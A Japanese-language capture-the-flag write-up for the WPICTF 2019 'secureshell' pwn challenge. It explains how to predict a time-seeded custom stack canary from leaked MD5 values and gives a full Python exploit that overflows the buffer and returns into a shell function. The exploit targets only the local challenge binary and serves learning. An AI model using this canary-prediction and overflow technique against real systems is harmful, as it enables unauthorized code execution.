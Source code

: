 # [pwn 200pts] secureshell - WPICTF 2019
64ビットで基本的に無効です。
```
$ checksec -f secureshell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   89 Symbols     No	0		8	secureshell
```
IDAで解析しましょう。

入力した文字列とSECUREPASSWORDという環境変数に入っている文字列を比較して、合っていればshellがもらえます。
入力にバッファオーバーフローがあるのですが、独自実装のSSPで守られています。
```
$ SECUREPASSWORD=dummy ./secureshell 
Welcome to the Super dooper securer shell! Now with dynamic stack canaries and incident reporting!
Enter the password
AAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAAAAav
LARRY THE CANARY IS DEAD
```

canaryは次のように生成されます。
```c
long canary = (rand() << 32) ^ rand();
```
また、`srand(秒 * 10^6 + マイクロ秒)`のように初期化されているのでrandの値を予測できません。
しかし、認証に失敗すると次のようにrandの値をもとにしたMD5値が出力されます。
```c
unsigned int x = rand();
MD5_CTX c;
MD5_Init(&c);
MD5_Update(&c, &x, sizeof(unsigned int));
MD5_Final(hash, &c);
```
これをもとにsrandへのシードを探索し、次のcanaryを計算できそうです。

```python
from ctypes import *
from ptrlib import *
from time import time
import hashlib

def find_canary(md5, seed):
    for x in range(seed - 0x50000, seed + 0x400000):
        libc.srand(x & 0xffffffff)
        libc.rand()
        libc.rand()
        if hashlib.md5(p32(libc.rand())).hexdigest() == md5:
            return p64((libc.rand() << 32) ^ libc.rand())
    return None

def get_seed():
    t = time()
    return (int(t) * 10**6 + int((t % 1) * 10**6)) & 0xffffffff

elf = ELF("./secureshell")
cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc-2.27.so")
libc = CDLL("/lib/x86_64-linux-gnu/libc-2.27.so")

seed = get_seed()
sock = Process(["stdbuf", "-o0", "./secureshell"], env={"SECUREPASSWORD": "dummy"})

# find canary
sock.recvuntil("Enter the password\n")
sock.sendline("password123")
sock.recvuntil("Incident UUID: ")
uuid = bytes2str(sock.recvline().rstrip())
assert len(uuid) == 32
p1 = bytes.fromhex(uuid[:16])[::-1].hex()
p2 = bytes.fromhex(uuid[16:])[::-1].hex()
md5 = p1 + p2
canary = find_canary(md5, seed)
assert canary is not None
dump(b"canary = " + canary)

# overwrite
payload = b"A" * 0x70
payload += canary
payload += p64(0)
payload += p64(elf.symbol("shell"))
sock.recvuntil("Enter the password\n")
sock.sendline(payload)

# get the shell!
sock.interactive()
```

UUIDとMD5が違ったりhashのとり方間違えてたりでちょっと時間かけてしまった。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=14031)
[ptrlib] b'canary = \x19SR\x0b\xcd\x15\xaf\x11'
[ptrlib]$ whoami
ptr
```

# 感想
pythonからlibcのrandを呼び出す練習になりました。

# 参考文献
[1] [https://www.hackiit.cf/write-up-wpictf2019-secureshell/](https://www.hackiit.cf/write-up-wpictf2019-secureshell/)